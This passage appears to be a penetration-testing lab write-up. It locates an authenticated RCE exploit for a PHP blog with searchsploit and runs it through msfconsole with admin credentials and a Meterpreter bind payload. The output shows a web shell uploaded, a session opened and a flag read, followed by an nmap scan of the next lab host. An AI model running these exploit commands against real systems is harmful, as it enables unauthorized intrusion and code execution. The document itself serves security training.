 ### Web Shells - PHP

```
┌──(nabla㉿kali)-[~]
└─$ searchsploit lightweight facebook-styled blog --json | jq '.RESULTS_EXPLOIT[] | {Title, Codes, Path}'

{
  "Title": "Lightweight facebook-styled blog 1.3 - Remote Code Execution (RCE) (Authenticated) (Metasploit)",
  "Codes": "",
  "Path": "/usr/share/exploitdb/exploits/php/webapps/50064.rb"
}
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo cp /usr/share/exploitdb/exploits/php/webapps/50064.rb /usr/share/metasploit-framework/modules/exploits/
```

```
┌──(nabla㉿kali)-[~]
└─$ msfconsole -q -x "use exploit/50064.rb; set PAYLOAD php/meterpreter/bind_tcp; set RHOSTS 172.16.1.12; set VHOST blog.inlanefreight.local; set RPORT 80; set USERNAME admin; set PASSWORD admin123!@#; set LPORT 1337; exploit"

[SNIP]

[*] Got CSRF token: 626fbb6405
[*] Logging into the blog...
[+] Successfully logged in with admin
[*] Uploading shell...
[+] Shell uploaded as data/i/4xce.php 📌
[+] Payload successfully triggered !
[*] Started bind TCP handler against 172.16.1.12:1337
[*] Sending stage (39282 bytes) to 172.16.1.12
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 172.16.1.12:1337) at 2025-07-16 13:36:51 -0400

[SNIP]

cat /customscripts/flag.txt
B1nD_************* 📌
```

---

### Host-3

#### External Information Gathering

```
┌──(nabla㉿kali)-[~]
└─$ sudo nmap -Pn -sS -p- 172.16.1.13 -T5

[SNIP]

PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman

[SNIP]
```
